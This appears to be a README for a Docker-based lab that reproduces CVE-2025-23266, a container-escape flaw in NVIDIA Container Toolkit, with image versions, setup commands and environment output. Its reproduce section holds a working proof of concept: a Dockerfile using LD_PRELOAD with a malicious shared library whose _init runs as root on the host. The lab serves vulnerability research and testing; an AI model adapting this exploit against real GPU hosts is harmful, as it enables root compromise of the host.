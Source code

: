 # nvidia-container-toolkit cve-2025-23266

* dqd:
  * ssst0n3/docker_archive:cve-2025-23266 -> ssst0n3/docker_archive:cve-2025-23266_v0.9.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.9.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.4.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.3.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.2.0
  * ssst0n3/docker_archive:cve-2025-23266_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2025-23266 -> ssst0n3/docker_archive:ctr_cve-2025-23266_v0.9.0
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.9.0: install real nvidia driver without kernel module; install i386 libs; bump fake-nvidia to v0.7.2
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.4.0: bump fake-nvidia to v0.7.1
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.3.0: CDI mode compatible
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.2.0: setup hostname; install netcat
  * ssst0n3/docker_archive:ctr_cve-2025-23266_v0.1.0

## usage

```shell
$ cd vul/cve-2025-23266
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
```

### reproduce

[demo.ogv](./demo.ogv)

![demo.gif](./demo.gif)

```shell
$ ./ssh
root@cve-2025-23266:~# mkdir poc
cd poc
cat << EOF > Dockerfile
FROM busybox
ENV LD_PRELOAD=/proc/self/cwd/evil.so
ADD evil.so /
EOF

cat << EOF > evil.c 
#include <stdlib.h>
#include <stdio.h>

void _init() {
    FILE *f = fopen("/proof-cve-2025-23266", "w");
    fclose(f);
}
EOF

gcc -fPIC -shared -o evil.so evil.c -nostartfiles
docker build -t poc .
root@cve-2025-23266:~# docker run --rm --runtime=nvidia --gpus=all poc
root@cve-2025-23266:~# ls -lah /proof-cve-2025-23266 
-rw-r--r-- 1 root root 0 Jul 21 14:49 /proof-cve-2025-23266
```

### fake-nvidia

```shell
root@cve-2025-23266:~# nvidia-container-cli info
NVRM version:   575.57.08
CUDA version:   12.2

Device Index:   0
Device Minor:   0
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-0-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   1
Device Minor:   1
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-1-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   2
Device Minor:   2
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-2-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5

Device Index:   3
Device Minor:   3
Model:          NVIDIA Tesla T4
Brand:          Tesla
GPU UUID:       GPU-3-FAKE-UUID
Bus Location:   00000000:00:00.0
Architecture:   7.5
root@cve-2025-23266:~# lsmod |grep fake
fake_nvidia_driver     12288  0
root@cve-2025-23266:~# ls -lah /usr/lib/x86_64-linux-gnu/libnvidia-ml.so*
lrwxrwxrwx 1 root root  43 Jul 30 07:30 /usr/lib/x86_64-linux-gnu/libnvidia-ml.so -> /usr/lib/x86_64-linux-gnu/libnvidia-ml.so.1
lrwxrwxrwx 1 root root  51 Jul 30 07:30 /usr/lib/x86_64-linux-gnu/libnvidia-ml.so.1 -> /usr/lib/x86_64-linux-gnu/libnvidia-ml.so.575.57.08
-rwxr-xr-x 1 root root 22K Jul 30 07:30 /usr/lib/x86_64-linux-gnu/libnvidia-ml.so.575.57.08
root@cve-2025-23266:~# systemctl status fake-nvidia-device
○ fake-nvidia-device.service - Create device nodes for fake nvidia driver
     Loaded: loaded (/etc/systemd/system/fake-nvidia-device.service; enabled; preset: enabled)
     Active: inactive (dead) since Wed 2025-07-30 08:00:50 UTC; 3min 54s ago
    Process: 647 ExecStart=/usr/local/bin/fake-nvidia-device.sh (code=exited, status=0/SUCCESS)
   Main PID: 647 (code=exited, status=0/SUCCESS)
        CPU: 14ms

Jul 30 08:00:50 cve-2025-23266 systemd[1]: Starting fake-nvidia-device.service - Create device nodes for fake nvidia driver...
Jul 30 08:00:50 cve-2025-23266 systemd[1]: fake-nvidia-device.service: Deactivated successfully.
Jul 30 08:00:50 cve-2025-23266 systemd[1]: Finished fake-nvidia-device.service - Create device nodes for fake nvidia driver.
```

### env details

```shell
$ ./ssh
root@cve-2025-23266:~# nvidia-container-toolkit --version
NVIDIA Container Runtime Hook version 1.17.6
commit: e627eb2e21e167988e04c0579a1c941c1e263ff6
root@cve-2025-23266:~# docker info
Client: Docker Engine - Community
 Version:    28.1.1
 Context:    default
 Debug Mode: false
 Plugins:
  buildx: Docker Buildx (Docker Inc.)
    Version:  v0.20.1
    Path:     /usr/libexec/docker/cli-plugins/docker-buildx
  compose: Docker Compose (Docker Inc.)
    Version:  v2.33.1
    Path:     /usr/libexec/docker/cli-plugins/docker-compose

Server:
 Containers: 0
  Running: 0
  Paused: 0
  Stopped: 0
 Images: 1
 Server Version: 28.1.1
 Storage Driver: overlay2
  Backing Filesystem: extfs
  Supports d_type: true
  Using metacopy: false
  Native Overlay Diff: true
  userxattr: false
 Logging Driver: json-file
 Cgroup Driver: systemd
 Cgroup Version: 2
 Plugins:
  Volume: local
  Network: bridge host ipvlan macvlan null overlay
  Log: awslogs fluentd gcplogs gelf journald json-file local splunk syslog
 Swarm: inactive
 Runtimes: io.containerd.runc.v2 nvidia runc
 Default Runtime: runc
 Init Binary: docker-init
 containerd version: 05044ec0a9a75232cad458027ca83437aae3f4da
 runc version: v1.2.5-0-g59923ef
 init version: de40ad0
 Security Options:
  apparmor
  seccomp
   Profile: builtin
  cgroupns
 Kernel Version: 6.8.0-71-generic
 Operating System: Ubuntu 24.04.2 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 2
 Total Memory: 1.922GiB
 Name: cve-2025-23266
 ID: 0bf87173-9557-47ae-9650-7f755553808e
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Experimental: false
 Insecure Registries:
  ::1/128
  127.0.0.0/8
 Live Restore Enabled: false

root@cve-2025-23266:~# containerd --version
containerd containerd.io 1.7.27 05044ec0a9a75232cad458027ca83437aae3f4da
```

## build

```shell
make all DIR=vul/cve-2025-23266
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2025-23266_v0.9.0
```
